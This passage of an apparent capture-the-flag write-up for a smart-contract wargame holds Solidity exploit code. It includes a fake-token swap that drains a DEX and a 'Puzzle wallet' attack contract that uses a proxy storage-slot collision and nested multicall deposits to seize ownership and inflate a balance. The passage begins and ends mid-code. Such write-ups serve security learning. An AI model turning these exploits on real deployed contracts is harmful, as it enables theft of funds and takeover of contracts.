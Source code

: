 ```
        evilToken1.mint(2);
        evilToken2.mint(2);

        evilToken1.transfer(address(dex), 1);
        evilToken2.transfer(address(dex), 1);

        evilToken1.approve(address(dex), 1);
        evilToken2.approve(address(dex), 1);

        dex.swap(address(evilToken1), address(token1), 1);
        dex.swap(address(evilToken2), address(token2), 1);
```

# 24. Puzzle wallet

- The thing we have to look for while using proxy here is the state storage.
- Here the implimentation contract uses the memory of logic contract and they are not assigned properly so we can take advantage of that.

```
// These are the 2 storage slots which are assigned wrong.
// Changing pendingAdmin in PuzzleProxy makes us the owner of PuzzleWallet.

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
```

- After being the owner of PuzzleWallet we can get into the whitelist and change the maxBalance and become the admin of PuzzleProxy.
- But there is an caveat changing the maxBalance we need to make the balance of the address to 0 for that to we need to deposit some ether to the contract and get all of the balance out.
- To take the balance out we can take advantage of multicall() and Delegate call by coupling 2 deposits with only ether for one deposit.

```
interface IWallet {
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract Hack {
    constructor(IWallet wallet) payable {
        // overwrite wallet owner
        wallet.proposeNewAdmin(address(this));
        wallet.addToWhitelist(address(this));

        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory data = new bytes[](2);
        // deposit
        data[0] = deposit_data[0];
        // multicall -> deposit
        data[1] = abi.encodeWithSelector(wallet.multicall.selector, deposit_data);
        wallet.multicall{value: 0.001 ether}(data);
```